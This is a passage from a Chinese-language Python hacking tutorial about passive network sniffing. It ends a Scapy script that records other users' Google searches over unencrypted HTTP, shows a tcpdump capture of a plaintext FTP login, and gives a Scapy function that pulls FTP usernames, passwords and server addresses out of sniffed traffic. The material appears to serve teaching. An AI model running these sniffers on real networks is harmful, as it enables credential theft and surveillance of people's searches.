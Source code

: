 ```py
    else:
        try:
            conf.iface = options.interface
            print('[*] Starting Google Sniffer.')
            sniff(filter='tcp port 80', prn=findGoogle)
        except KeyboardInterrupt:
            exit(0)

if __name__ == '__main__':
    main() 
```

在使用未加密的网络连接中运行我们的脚本，我们可以看到别人的搜索内容。拦截 Google 流量可能有点令人为难，下一节，拦截用户的凭据的手段更加能证明一个组织的安全局势。

```py
attacker# python googleSniff.py -i mon0
[*] Starting Google Sniffer.
[+] W
[+] What
[+] What is
[+] What is the mean
[+] What is the meaning of life? 
```

## Google URL 搜索参数

Google URL 搜索参数提供了许多有价值的

额外信息，这些信息对建立你的 Google 搜索记录器很有用。解析出的查询，先前查询，语言，特定的短语搜索文本类型或者受限制的站点都可以添加到我们的记录器。更多信息请到： [`www.google.com/cse/docs/resultsxml.html`](http://www.google.com/cse/docs/resultsxml.html)

## 嗅探 FTP 认证

FTP 协议缺乏任何的加密算法来保护用户认证。黑客能轻松的拦截这些任何当受害者在这种为加密的网络。看下面的`tcpdump`显示我们拦截的用户凭证。FTP 协议通过明文交换凭证。

```py
attacker# tcpdump -A -i mon0 'tcp port 21'
E..(..@.@.q..._...........R.=.|.P.9.....
20:54:58.388129 IP 192.168.95.128.42653 > 192.168.211.1.ftp:
Flags [P.], seq 1:17, ack 63, win 14600, length 16
E..8..@.@.q..._...........R.=.|.P.9.....USER root
20:54:58.388933 IP 192.168.95.128.42653 > 192.168.211.1.ftp:
Flags [.], ack 112, win 14600, length 0
E..(..@.@.q..._...........R.=.|.P.9.....
20:55:00.732327 IP 192.168.95.128.42653 > 192.168.211.1.ftp:
Flags [P.], seq 17:33, ack 112, win 14600, length 16
E..8..@.@.q..._...........R.=.|.P.9.....PASS secret 
```

为了拦截这些凭证，我们寻找两个特殊的字符串。第一个字符串包含 USER 接着就是用户名，第二个字符串是 PASS 接着就是密码。我们在`tcpdump`的数据中看到这些凭证。我们将设计两个正则表达式来捕获这些信息。我们也将从数据包中剥离 IP 地址。不知道服务器的 IP 地址用户名和密码是毫无价值的。

```py
from scapy.all import *

def ftpSniff(pkt):
    dest = pkt.getlayer(IP).dst
    raw = pkt.sprintf('%Raw.load%')
    user = re.findall('(?i)USER (.*)', raw)
    pswd = re.findall('(?i)PASS (.*)', raw)
    if user:
        print('[*] Detected FTP Login to ' + str(dest))
        print('[+] User account: ' + str(user[0]))
    elif pswd:
        print('[+] Password: ' + str(pswd[0])) 
```
